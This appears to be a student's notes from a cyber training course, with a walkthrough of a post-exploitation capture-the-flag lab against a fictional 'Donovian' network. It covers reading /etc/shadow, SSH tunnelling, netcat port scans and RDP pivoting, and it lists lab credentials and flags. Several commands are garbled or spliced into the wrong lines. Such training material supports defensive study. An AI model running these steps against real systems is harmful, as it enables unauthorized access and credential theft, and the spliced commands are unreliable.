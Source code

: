 ## CCTC Security Day 8
- agenda

## Admin Data 

### CTFd info FOR UPDATED CTF
| Field | Value | 
|-|-|
| Stack # | 10 | 
| Username | JAMO-005-B |  
| Password | YdY8vrRGOsRfhy6 |
| lin.internet | 10.50.21.133 |
|Linux ops | 192.168.65.20, 10.50.27.132|
| Windos Ops | 1192.168.65.10, 10.50.26.107|

***
### Post Exploitation

## Linux
- see etc shadow:
    - `cd /etc`
    - `sudo cat shadow`
    - ` cat pwd` - usernames
    - `sudo cat rsyslog.conf`
    - `cat hosts` - 
    - `cat crontab` - current user or -l for more 

- `sudo -l` showd all the commands that user can do with sudo 
- `whoami` - current user
- `groups` groups 
- `find / -perm /4000` (not needed for today I guess? )
- `w` and `who` looks at all logged in users on box, and what they've been up to 
- `ps -aux` (unix way), essentially the same as -l 
- `pstree` - shows breakdown of all processes 
- `lsb_release -a` and `cat os-release` show version of operating system 
- `service --status-all` - shows all services and what's on/off
- `systemctl --all` - shows
- `systemctl status` 
# **`hostname`** - super important, shows what computer you are on for test

***
## Windows

- use **system information**, **Computer management** (see groups)
- task scheduler 
- registry run/runonce keys
- services (look for empty description)
- file efor i in {1..254} ;do (ping -c 1 192.168.$i.9 | grep "bytes from" &) ;done
ed `%temp

%` into file address. --> AppData --> Roaming
        - `C:\Users\student\AppData\Local\Temp`
        - `C:\Users\student\AppData\Roaming` can also get there with `%appdata%`
    - `hiden file, 
    - programfiles 
    - programdata
    - Programfiles(x86)
- Even viewer (windows logging)

***
Order of challenges:
extranet --> intranet (intranet 4 is talking about a security product) --> internal 
***
### CTF Challenges
Donovian Post Exploitation (DPE)
XX Mar 2024
Start Time: 1300
Duration: 4 hours

Type of Operation: Cyber Intelligence, Surveillance and Reconnaissance (C-ISR)

Objective: Maneuver through Donovian-Extranet, identify and gain access futher into Donovian internal Cyberspace, it is believed that there is an network that acts as an internal DMZ between these to locations. Intelligence was able to identify the last octet of a system that resides in the Donovian internal Cyberspace.

Tools/Techniques: All connections will be established through SSH masquerades or web browser. Ports in use will be dependent on target location and are subject to change. Network scanning tools/technique usage is at the discretion of student.

Scenario Credentials: FLAG = P05T3xpl01t5t@rtoF@ct1v1ty

Prior Approvals: Sudo usage and remote port forward is authorized. System dir walks from system roots, altering accounts/routing or tool uploads are authorized. Survey and access to newly discovered systems during C-ISR.

Scheme of Maneuver:
>internet_grey_host
->T1: 192.168.28.100
--->T3:x.x.x.9

Target Section:

T1
Hostname: Donovian_Extranet
IP: 192.168.28.100
OS: CentOS
Creds: comrade :: StudentMidwayPassword
Last Known SSH Port: 2222
PSP: none
Malware: none
Action: Perform SSH masquerade and survey system. Identify redirection to the next target.

T3
Hostname: unknown
IP: x.x.x.9
OS: unknown
Creds:unknown
Last Known SSH Port: unknown
PSP: Unknown
Malware: Unknown
Action: Gain access; survey host and map Donovian internal Cyberspace.

1. Extranet

Utilizing the intelligence provided, enumerate the target provided. Look for user generated documents, relating to network structure, on this host that will direct further actions.

        - get on comrade, cd desktop --> network.
        - `scp map.png student@xfreerdp /v:localhost:43300 /u:comrade /p:StudentMidwayPassword /size:1000x1000 +clipboard10.50.21.133:/home/student`  onto jump box --> get it onto lin-ops `scp map.png student@10.50.27.132:/home/student`
        - install gimp
        - open map.png
        - see 192.168.X.0/27
        - look around network directory for hidden files --> .mapkey.txt
        - zzcNTsGG3zwD7QjHrfho

2. Extranet 2

The Donovian government is furthering their inventory expansion project. Identify and locate this intel to support this.

        - on comrade, get to home directory, then usr/share --> equip-inventory.txt --> wDsibI1AjiIjhC0XqBHV (decoded)

3. Intranet (3201)

Enumerate all network items, relating to name resolution

                - get onto comrade, cat /etc/hosts -->  192.168.150.253 (Donovian Intranet)
                - `ssh 10.50.21.133 -L 42200:192.168.28.100:2222 -NT` create tunnel from jumpbox to comrade ssh
                - ssh from comrade box to intranet `ssh -p 3201 192.168.150.253` 
                - `etc/ --> cat hosts --> yslO1mUMzvL3zLAbHnYP`
4. Intranet 2

Enumerate all network items related to syslog and rsyslog

                - In intranet still --> etc/rsyslog.d --> cat 50-default.conf
                - IVEUFtIY7CHhKepQ44mE

5. Intranet 3

Enumerate user directories on the machine. Find artifacts of malicious intent. You might need higher privileges...


                - sudo cat root/brootkit/brootkit-master/br.conf
                - qVnoUiQnILVbd0iEEuEX
6. Intranet 4

Enumerate for security products that may be installed on the system

        - /etc --> cat rkhunter.conf --> ylD7PRFfWRIcOslLlJy7
7. Intranet 5

Enumerate information related to the users on this system

        - cd /etc --> sudo cat shadow --> 266nuHJ9vznLyRDmrGVh

8. Intranet 6

Enumerate items that would be related to jobs and tasks that running on the host, you may need to use higher privileges.

- look for individual user cron, like root --> sudo su root then crontab -l --> CUt2Eyl7D9XNESsPaoJ4'

9. Intranet 7

Find the beacon being received by the intranet host and determine how to interact with it 

                - sudo tcpdump  port not 3201
                - see 192.168.28.135 12314 is often conneting to intranet
                - fix nc --> sudo tcpdump  port not 3201
  171  sudo ncat -v -n 192.168.28.135 1-2034
  172  ncat -v -n 192.168.28.135 1-2034
  173  nc -v -n 192.168.28.135 1-2034
  174  ls -l /bin/nc
  175  ls -l /etc/alternatives/nc
  176  ls -l /bin/nc.openbsd
  177  chmod +x /bin/nc.openbsd
  178  sudo chmod +x /bin/nc.openbsd
  179  nc -v -n 192.168.28.135 1-2034
  180  nc -lvnp 12315

S1RCQ09INUhFTDA5a3lUT0g2STIK --> base64 decode --> c
KTBCOH5HEL09kyTOH6I2

10. Internal

- ssh comrade@localhost -p 42200 -L 43300:192.168.28.9:3389 -NT

- xfreerdp /v:localhost:43300 /u:comrade /p:StudentMidwayPassword /size:1000x1000 +clipboard

- documents --> generalstaz --> donovian battle brief --> 6LN1QJV0Y9GCcExi4Caz

11. Internal 2

gorgas missle plan --> FdRE8A1nILw8OYVdgp3a


12. Internal 3
regedit --> Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run --> checkin--> modify --> 
ZZ8hMWRIYRCMisJ777kE